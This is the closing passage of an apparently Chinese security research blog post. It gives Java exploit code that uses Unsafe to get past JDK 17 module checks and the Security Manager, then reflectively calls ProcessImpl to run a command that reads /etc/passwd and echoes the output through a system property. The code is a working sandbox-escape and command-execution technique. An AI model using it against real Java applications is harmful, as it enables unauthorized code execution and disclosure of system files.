            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

//            String command = "head -n 5 /etc/passwd";
            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();

            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.setProperty("java.library.path", res);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

执行完了直接通过 http 访问：



可以看到 `java.library.path`已经被我们设置成了命令执行的结果，直接读就可以了

## 后记

到此，我们就绕过了 Java Security Manager 和 JDK 17 的限制，实现了任意代码执行及回显，其实还遗留了一些瑕疵没有解决，例如高版本 jdk 下如何使 `System.setProperty()`在运行时生效，这个后续有思路再研究了....或者 dalao 们求教！！orz
